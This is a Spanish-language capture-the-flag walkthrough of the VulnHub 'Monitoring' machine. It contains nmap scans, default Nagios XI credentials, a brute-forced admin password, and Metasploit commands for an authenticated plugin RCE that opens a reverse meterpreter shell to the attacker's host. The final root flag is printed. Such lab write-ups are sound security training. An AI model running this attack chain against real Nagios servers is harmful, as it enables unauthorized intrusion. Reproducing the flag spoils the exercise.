 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Monitoring VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-19 06:11 EDT
Nmap scan report for 192.168.5.193
Host is up (0.00022s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b8:8c:40:f6:5f:2a:8b:f7:92:a8:81:4b:bb:59:6d:02 (RSA)
|   256 e7:bb:11:c1:2e:cd:39:91:68:4e:aa:01:f6:de:e6:19 (ECDSA)
|_  256 0f:8e:28:a7:b7:1d:60:bf:a6:2b:dd:a3:6d:d1:4e:a4 (ED25519)
25/tcp   open  smtp       Postfix smtpd
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-09-08T17:59:00
|_Not valid after:  2030-09-06T17:59:00
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-09-08T18:28:08
|_Not valid after:  2030-09-06T18:28:08
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
5667/tcp open  tcpwrapped
MAC Address: 00:0C:29:22:4F:D1 (VMware)
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.89 seconds
```

Si nos vamos al puerto 80 normal encontramos un boton que nos lleva a un login de `nagios` el cual parece vulnerable, si buscamos en google las credenciales por defecto de un `nagios` vemos lo siguiente...

```
root/nagiosxi

o tambien

nagiosadmin/nagiosadmin
```

Si probamos no nos va a ir ninguna, pero si hacemos fuerza bruta con el usuario `nagiosadmin` para adivinar la `password` vemos que es `admin`, por lo que nos vamos a `metasploit`...

```shell
msfconsole -q

> use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
> set RHOSTS <IP>
> set PASSWORD admin
> set LHOST <YOUR_IP>
> run
```

Info:

```
[*] Started reverse TCP handler on 192.168.5.175:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.6.0.
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3045380 bytes) to 192.168.5.193
[*] Meterpreter session 1 opened (192.168.5.175:4444 -> 192.168.5.193:59266) at 2024-06-19 07:00:33 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter >
```

Con esto ya habriamos vulnerado la maquina y seriamos el usuario `root`, por lo que leeremos la flag...

> proof.txt (flag\_final)

```
SunCSR.Team.3.af6d45da1f1181347b9e2139f23c6a5b
```
